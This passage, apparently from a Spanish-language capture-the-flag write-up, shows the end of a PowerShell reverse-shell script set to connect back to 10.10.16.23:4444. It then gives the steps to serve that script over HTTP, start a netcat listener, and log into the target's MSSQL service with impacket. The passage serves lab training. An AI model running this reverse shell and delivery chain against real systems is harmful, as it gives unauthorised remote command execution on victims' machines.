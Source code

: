 ```
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.23 -Port 4444
```

En el `mismo directorio` donde se `encuentra` el `binario` nos montamos un `servidor http` con `python`

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 4444
```

Nos `conectamos` al servicio `MSSQL`

```
# mssqlclient.py WORKGROUP/mssql-svc@10.129.255.12 -windows-auth 
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

